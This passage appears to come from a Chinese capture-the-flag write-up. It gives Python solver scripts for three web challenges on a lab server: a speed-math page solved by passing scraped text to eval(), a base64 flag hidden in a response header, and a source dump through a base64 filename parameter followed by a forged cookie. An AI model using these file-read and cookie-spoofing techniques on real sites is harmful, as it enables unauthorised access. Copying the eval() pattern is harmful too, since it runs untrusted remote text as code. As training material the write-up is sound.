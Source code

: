 ```python
import requests
import re
url = 'http://123.206.87.240:8002/qiumingshan/'
s = requests.Session()#Session()防止提交答案时算式更新
nr = s.get(url)#提取页面信息
ss = re.search(r'(\d+[+\-*])+(\d+)', nr.text).group()#正则表达式提取<div></div>之间的算式
result = eval(ss)
post = {'value': result}
print(s.post(url, data = post).text)#用post方式提交结果

```
得到flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020031420194360.png)
#### 速度要快
查看元素发现要用post方法上传一个margin值，但是不知道具体上传什么值，随便上传一个值，提示我再快一点...用bp抓包试一下，包头有一个base64加密的flag值，解码之后得到“跑的还不错，给你flag吧: Nzl0OTg1”，但是提交之后不对
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200315103128214.png)
多go几次发现这一串base64的值是会变的，所以可以写脚本自动传递，即将解码后的flag值作为margin用post上传，最后得到flag

```python
import requests
import base64
url="http://123.206.87.240:8002/web6/?http:%2f%2f123.206.87.240:8002%2fweb6%2f"
r=requests.session()
headers=r.get(url).headers#flag在消息头里
flag=base64.b64decode(headers['flag'])
flag=flag.decode()
key = base64.b64decode(flag.split(':')[1])#获得flag:后的值
data={'margin':key}
print (r.post(url,data).text)#post上传
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200315104731503.png)

#### cookies欺骗
打开网页是一行乱码，但是url中的filename=a2V5cy50eHQ=，base64解码之后是keys.txt，将base64码换为keys.txt再进行访问，出现空白页，将kyes.txt更换为index.php，还是空白页，将index.php编码为base64，line即行数随便填一个，比如5，得到一行代码，修改行数，代码也变化，所以用可脚本导出所有代码，然后进行代码审计。

```python
import requests
a=20
for i in range(a):
    url="http://123.206.87.240:8002/web11/index.php?line="+str(i)+"&filename=aW5kZXgucGhw" 
    s=requests.get(url)
    print (s.text)
```
得到代码如下：

```php
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
$file_list = array(
'0' =>'keys.txt',
'1' =>'index.php',
);
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
$file_list[2]='keys.php';
}
if(in_array($file, $file_list)){
$fa = file($file);
echo $fa[$line];
```